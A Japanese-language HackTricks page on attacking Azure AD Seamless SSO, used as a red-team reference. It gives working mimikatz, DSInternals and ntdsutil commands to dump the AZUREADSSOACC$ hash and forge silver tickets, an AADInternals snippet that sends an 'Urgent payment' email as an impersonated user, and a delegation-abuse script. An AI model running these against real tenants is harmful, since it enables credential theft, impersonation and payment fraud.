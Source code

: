 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本情報

[ドキュメントから:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) は、企業ネットワークに接続された企業デバイス上でユーザーを自動的にサインインさせます。有効にすると、ユーザーはAzure ADにサインインするためにパスワードを入力する必要がなく、通常はユーザー名を入力する必要もありません。この機能により、追加のオンプレミスコンポーネントを必要とせずに、クラウドベースのアプリケーションへの簡単なアクセスが提供されます。

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

基本的にAzure AD Seamless SSOは、オンプレミスドメインに参加しているPC上でユーザーをサインインさせます。

これは[**PHS (Password Hash Sync)**](phs-password-hash-sync.md) と [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md) の両方でサポートされています。

デスクトップSSOは認証に**Kerberos**を使用しています。設定時に、Azure AD ConnectはオンプレミスADに**AZUREADSSOACC`$`**というコンピュータアカウントを作成します。`AZUREADSSOACC$`アカウントのパスワードは設定中に**プレーンテキストでAzure ADに送信されます**。

**Kerberosチケット**はパスワードの**NTHash (MD4)**を使用して**暗号化**され、Azure ADは送信されたパスワードを使用してチケットを復号化します。

**Azure AD**は**エンドポイント** (https://autologon.microsoftazuread-sso.com) を公開しており、Kerberos **チケット**を受け入れます。ドメインに参加しているマシンのブラウザは、このエンドポイントにチケットを転送してSSOを行います。

### オンプレミス -> クラウド

ユーザー**`AZUREADSSOACC$`のパスワードは変更されません**。したがって、ドメイン管理者はこのアカウントの**ハッシュを侵害**し、それを使用して**シルバーチケットを作成**し、**同期された任意のオンプレミスユーザー**でAzureに接続することができます:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
ハッシュを使用して、**silver ticketsを生成**できます:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
シルバーチケットを利用するには、以下の手順を実行します：

1. **ブラウザを起動する:** Mozilla Firefoxを起動します。
2. **ブラウザを設定する:**
* **`about:config`**に移動します。
* [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication)の設定を指定された[値](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically)に変更します：
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Webアプリケーションにアクセスする:**
* 組織のAADドメインと統合されたWebアプリケーションにアクセスします。一般的な例としては[Office 365](https://portal.office.com/)があります。
4. **認証プロセス:**
* ログオン画面で、ユーザー名を入力し、パスワードフィールドは空白のままにします。
* 続行するには、TABまたはENTERを押します。

{% hint style="success" %}
MFAが有効になっている場合、これを回避することはできません
{% endhint %}

#### ~~クラウド専用ユーザーのためのKerberosチケットの作成~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Active Directory管理者がAzure AD Connectにアクセスできる場合、**任意のクラウドユーザーにSIDを設定**できます。この方法で、クラウド専用ユーザーのためのKerberos **チケット**も**作成**できます。唯一の要件は、SIDが適切な[SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\))であることです。

{% hint style="danger" %}
クラウド専用の管理者ユーザーのSIDの変更は現在**Microsoftによってブロック**されています。\
詳細は[https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)を確認してください
{% endhint %}

### オンプレミス -> クラウド via Resource Based Constrained Delegation <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

コンテナまたはOU内のコンピュータアカウント（`AZUREADSSOACC$`）を管理できる人は、**リソースベースの制約付き委任をアカウントに設定し、アクセスする**ことができます。
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
AWS Hackingを学び、練習する:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hackingを学び、練習する: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローする。**
* **PRを提出してハッキングトリックを共有する** [**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリに。

</details>
{% endhint %}
